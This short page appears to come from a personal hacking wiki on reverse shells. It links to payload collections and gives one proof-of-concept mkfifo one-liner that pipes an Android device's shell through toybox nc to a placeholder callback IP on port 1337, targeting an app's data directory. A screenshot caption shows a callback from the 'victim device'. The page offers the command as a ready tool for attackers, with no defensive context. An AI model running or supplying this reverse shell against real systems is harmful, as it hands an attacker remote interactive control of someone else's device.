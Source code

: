```yaml
---
description: 06/17/2024
cover: https://y.yarn.co/3fe0745c-8406-4773-ab65-c27b3b1190ad_text.gif
coverY: -14
---
```


# 📵 Reverse Shells

## Every Hacker Needs Good Reverse Shells to Complete the Mission...

### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings" %}
The goat
{% endembed %}

{% embed url="https://www.revshells.com" %}
The goat II
{% endembed %}

{% content-ref url="../../binary-exploitation/shellcode/arm-shellcode.md" %}
[arm-shellcode.md](../../binary-exploitation/shellcode/arm-shellcode.md)
{% endcontent-ref %}

{% hint style="info" %}
**Looking for shellcode? Be sure to check out my ARM Shellcode guide listed above!**
{% endhint %}

### `mkfifo`

A solid reverse shell and somewhat mandatory one to make living-off-the-land (LOL) easier, is an `mkfifo` reverse shell which is essentially a shared memory region for one or more applications or connections simultaneously.&#x20;

`mkfifo` stands for make first-in-first-out.

**PoC:**

```
"rm /data/data/com.target.application/f;/system/bin/toybox mkfifo /data/data/com.target.application/f;cat /data/data/com.target.application/f|/system/bin/sh -i 2>&1|/system/bin/toybox nc <callback_ip_here> 1337 >/data/data/com.target.application/f"
```

### Result

<figure><img src="../../.gitbook/assets/image (208).png" alt=""><figcaption><p>Getting a callback from the victim device</p></figcaption></figure>
